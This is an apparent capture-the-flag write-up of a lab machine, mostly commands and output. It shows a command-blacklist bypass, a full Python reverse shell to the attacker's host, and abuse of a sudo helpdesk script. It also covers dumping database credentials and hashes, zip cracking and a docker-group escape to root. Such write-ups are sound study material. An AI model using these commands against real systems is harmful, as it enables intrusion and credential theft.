



root@kali:~# sudo nmap -sV 10.10.186.203
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-08 10:15 EST
Nmap scan report for 10.10.186.203
Host is up (0.12s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
root@kali:~# ftp 10.10.186.203
Connected to 10.10.186.203.
220 (vsFTPd 3.0.3)
Name (10.10.186.203:root): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r-- 1 1001 1001 90 Oct 03 04:33 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (90 bytes).
226 Transfer complete.
90 bytes received in 0.00 secs (67.4008 kB/s)
ftp>
Note.txt contents:
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
Index Page:
looking at the page source, none of the pages really do anything
looking for files and folders on the server:
root@kali:~# dirb http://10.10.186.203
---- Scanning URL: http://10.10.186.203/ ----
==> DIRECTORY: http://10.10.186.203/css/
==> DIRECTORY: http://10.10.186.203/fonts/
==> DIRECTORY: http://10.10.186.203/images/
+ http://10.10.186.203/index.html (CODE:200|SIZE:35184)
==> DIRECTORY: http://10.10.186.203/js/
==> DIRECTORY: http://10.10.186.203/secret/
This page lets you execute commands, there is some filtering though (as mentioned in notes.txt)
If you run a blacklisted command:
This command was used as an alternative to ls:
echo *
Result:
sort index.php
Blacklist Contents:
$blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
Additionally the code only checks for a whole match so something like nc1 would pass the blacklist.
root@kali:~# c`$p`at note.txt
Start the listener:
nc -lvp 1234
We can do the same with a python reverse shell, adding nonexistant environment variables to all the commands on the blacklist (python3), and replacing /bin/sh with /bin/dash:
py`$p`thon3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.12.29",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/dash","-i"]);'
When the reverse shell connects, we now have user www-data:
root@kali:~# nc -lvp 1234
listening on [any] 1234 ...
10.10.186.203: inverse host lookup failed: Unknown host
connect to [10.8.12.29] from (UNKNOWN) [10.10.186.203] 55556
/bin/dash: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Looking around we see there is 3 other users:
$ cd /home
$ ls
anurodh
apaar
aurick
$ cd anurodh
/bin/dash: 4: cd: can't cd to anurodh
The user flag is in the home directory of the user apaar, and while we cannot read it we find an interesting file helpline.sh:
$ cd apaar
$ ls
local.txt
$ cat local.txt
cat: local.txt: Permission denied
$ ls -lia
total 44
655374 drwxr-xr-x 5 apaar apaar 4096 Oct 4 14:11 .
655361 drwxr-xr-x 5 root root 4096 Oct 3 04:28 ..
655391 -rw------- 1 apaar apaar 0 Oct 4 14:14 .bash_history
655375 -rw-r--r-- 1 apaar apaar 220 Oct 3 04:25 .bash_logout
655376 -rw-r--r-- 1 apaar apaar 3771 Oct 3 04:25 .bashrc
655389 drwx------ 2 apaar apaar 4096 Oct 3 05:20 .cache
655387 drwx------ 3 apaar apaar 4096 Oct 3 05:20 .gnupg
655380 -rwxrwxr-x 1 apaar apaar 286 Oct 4 14:11 .helpline.sh
655377 -rw-r--r-- 1 apaar apaar 807 Oct 3 04:25 .profile
655385 drwxr-xr-x 2 apaar apaar 4096 Oct 3 05:19 .ssh
655381 -rw------- 1 apaar apaar 817 Oct 3 04:27 .viminfo
655378 -rw-rw---- 1 apaar apaar 46 Oct 4 07:25 local.txt
The file helpline.sh contains a mock helpdesk script:
$ cat .helpline.sh
#!/bin/bash
echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo
read -p "Enter the person whom you want to talk with: " person
read -p "Hello user! I am $person, Please enter your message: " msg
$msg 2>/dev/null
echo "Thank you for your precious time!"
$
Checking if the user can run anything with elevated privileges we see that www-data can run helpline.sh as apaar:
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
...
User www-data may run the following commands on ubuntu:
(apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
Upgrade to a proper shell:
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
Run the helpline script as the user apaar, enter the message as /bin/sh -i to get an interactive shell:
www-data@ubuntu:/home/apaar$ sudo -u apaar /home/apaar/.helpline.sh
sudo -u apaar /home/apaar/.helpline.sh
Welcome to helpdesk. Feel free to talk to anyone at any time!
Enter the person whom you want to talk with: john
john
Hello user! I am john, Please enter your message: /bin/sh -i
/bin/sh -i
id
id
uid=1001(apaar) gid=1001(apaar) groups=1001(apaar)
cat local.txt
{USER-FLAG: e8v_i_dont_want_to_get_in_trouble}
Upgrade to an interactive shell:
python3 -c 'import pty; pty.spawn("/bin/bash")'
apaar@ubuntu:~$
Enumerate as the user apaar:
3: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default
link/ether 02:42:1e:a7:08:b8 brd ff:ff:ff:ff:ff:ff
inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
valid_lft forever preferred_lft forever
apaar@ubuntu:~$ cat /var/www/files/hacker.php
cat /var/www/files/hacker.php
...
<center>
<img src = "images/hacker-with-laptop_23-2147985341.jpg"><br>
<h1 style="background-color:red;">You have reached this far. </h2>
<h1 style="background-color:black;">Look in the dark! You will find your answer</h1>
...
apaar@ubuntu:~$
When we look in account.php we find there is table of usernames and passwords:
cat /var/www/files/account.php
[SNIP]
public function login($un,$pw)
{
$pw = hash("md5",$pw);
$query = $this->con->prepare("SELECT * FROM users WHERE username='$un' AND password='$pw'");
[SNIP]
?>
apaar@ubuntu:/var/www/files$ cat index.php
cat index.php
[SNIP]
try{
$con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
[SNIP]
apaar@ubuntu:/var/www/files$ mysql -u root -h localhost -D webportal -p
mysql -u root -h localhost -D webportal -p
Enter password: !@m+her00+@db
mysql> select * from users;
select * from users;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username | password |
+----+-----------+----------+-----------+----------------------------------+
| 1 | Anurodh | Acharya | Aurick | 7e53614ced3640d5de23f111806cc4fd |
| 2 | Apaar | Dahal | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
2 rows in set (0.00 sec)
mysql>
Crack the password hashes:
It is a dead-end, as these passwords do not allow us to login anywhere
Use netstat to check ports we find that there is a service running locally on port 9001:
apaar@ubuntu:/var/www/files$ netstat -ntpl
netstat -ntpl
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 127.0.0.1:9001 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:3306 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:22 0.0.0.0:*
[SNIP]
apaar@ubuntu:/var/www/files$ curl http://localhost:9001
curl http://localhost:9001
[SNIP]
<div class="header">
<h2 style="color:blue;">Customer Portal</h2>
<h3 style="color:green;">Log In<h3>
</div>
<form method="POST">
[SNIP]
apaar@ubuntu:~/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDYatZE9zGjo4hhKEU6+ZVFVPjBnoMH3fAqVp26YSDnRZ4fo/jTvfWstE5/[SNIPPED]" > authorized_keys
Using the -L parameter to tunnel our traffic, we can now access the web service at localhost:9999:
root@kali:~# ssh -L 9999:localhost:9001 apaar@10.10.186.203
Visit it in our browser:
Found something with StegHide: /root/Downloads/results/steghide_f70de1ee463e0085a214352a0f14d476.bin
Running Module: MultiHandler
Use steghide to extract the embedded file backup.zip:
root@kali:~/Downloads# steghide extract -sf hacker-with-laptop_23-2147985341.jpg
Enter passphrase:
wrote extracted data to "backup.zip".
root@kali:~/Downloads#
root@kali:~/Downloads# zip2john backup.zip > chill_zip
ver 2.0 efh 5455 efh 7875 backup.zip/source_code.php PKZIP Encr: 2b chk, TS_chk, cmplen=554, decmplen=1211, crc=69DC82F3
root@kali:~/Downloads# john --wordlist=/root/rockyou.txt -rules chill_zip
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pass1word (backup.zip/source_code.php)
1g 0:00:00:01 DONE (2021-01-08 12:39) 0.9708g/s 15906p/s 15906c/s 15906C/s total90..cocoliso
Use the "--show" option to display all of the cracked passwords reliably
Session completed
apaar@ubuntu:~$ ls /home
anurodh apaar aurick
apaar@ubuntu:~$ su anurodh
Password:
anurodh@ubuntu:/home/apaar$
anurodh@ubuntu:~$ id -a
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
From GTFO bins entry for docker:
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Getting root:
anurodh@ubuntu:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
Root Flag:
# cd /root
# ls
proof.txt
# cat proof.txt
{ROOT-FLAG: w18g_i_dont_want_to_get_in_trouble}
Congratulations! You have successfully completed the challenge.